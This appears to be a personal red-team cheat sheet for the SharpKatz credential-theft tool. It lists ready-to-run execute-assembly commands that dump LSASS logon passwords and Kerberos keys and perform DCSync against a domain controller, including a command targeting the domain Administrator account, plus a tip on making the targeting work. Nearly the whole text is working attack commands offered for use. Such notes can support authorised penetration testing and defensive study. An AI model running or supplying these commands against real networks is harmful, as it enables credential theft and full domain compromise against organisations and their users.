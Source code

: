 # SharpKatz

For dumping specific user credentials, need to specify domain name before the user or it won't work. Really useful!

### 1) LSASS Dump

    execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command logonpasswords    
    execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command ekeys

### 2) DCSync

    execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command dcsync --Domain domain.com
    execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command dcsync --Domain domain.com --DomainController dc01.domain.com

### 3) DCSync - As a user on a machine with no write perms - use this

    execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command dcsync --User DOMAIN\\Administrator --Domain domain.COM --DomainController dc01.domain.com
